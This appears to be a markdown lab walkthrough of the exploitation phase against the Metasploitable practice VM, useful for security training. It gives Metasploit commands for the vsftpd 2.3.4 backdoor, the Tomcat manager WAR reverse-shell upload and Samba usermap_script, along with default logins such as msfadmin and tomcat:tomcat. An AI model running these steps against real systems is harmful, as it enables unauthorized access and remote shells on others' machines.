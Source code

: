 💥 Exploitation – Metasploitable

In this phase, we use the results from enumeration to gain initial access to the target system through various vulnerable services and web applications.

---

## ⚡ 1. Exploiting FTP (vsftpd 2.3.4)

This version contains a known backdoor that opens a shell on port 6200 when logging in with a username containing `:)`.

### ➤ Metasploit Exploit:
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.109
run
````

✅ This gives you a limited shell.

---

## 🟢 2. Telnet Access (Weak Credentials)

Login with default credentials:

```bash
telnet 192.168.1.109
```

Username: `msfadmin`
Password: `msfadmin`

✅ You get shell access with user privileges.

---

## 🌐 3. Web App: phpMyAdmin

Visit: `http://192.168.1.109/phpmyadmin`

Try default login:

* `root` with no password

If successful:

* Access full MySQL database
* Dump usernames and password hashes
* Brute force or reuse them for login (e.g., SSH, web apps)

---

## 🔐 4. Tomcat Manager (Port 8180)

Visit: `http://192.168.1.109:8180/manager/html`

Try credentials:

* `tomcat:tomcat`
* `admin:admin`

If successful:

### ➤ Upload a WAR Reverse Shell (Metasploit)

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOST 192.168.1.109
set HTTPUSERNAME tomcat
set HTTPPASSWORD tomcat
set RPORT 8180
set LHOST <your IP>
run
```

✅ This gives a Meterpreter shell.

---

## 🗃️ 5. Samba Exploitation (Null Session)

From `enum4linux` or `smbclient`, if a share like `/tmp` or `/public` is writable:

```bash
smbclient //192.168.1.109/tmp -N
```

You can upload a reverse shell or try exploits such as:

```bash
use exploit/multi/samba/usermap_script
```

---

## 🌐 6. Mutillidae / DVWA (on port 80)

These are intentionally vulnerable web apps.

* Try SQL Injection (DVWA login)
* File upload (Mutillidae or DVWA)
* XSS and Command Injection

> These are practice apps and won't give you full system access but help in learning exploitation.

---

## 🎯 Successful Shell Access Methods

| Method         | Technique                               | Access Level  |
| -------------- | --------------------------------------- | ------------- |
| FTP Backdoor   | vsftpd 2.3.4 exploit via MSF            | Limited shell |
| Telnet         | Weak credentials `msfadmin:msfadmin`    | User shell    |
| Tomcat Manager | WAR upload via Metasploit               | Meterpreter   |
| Samba          | Writable share or remote code execution | Varies        |

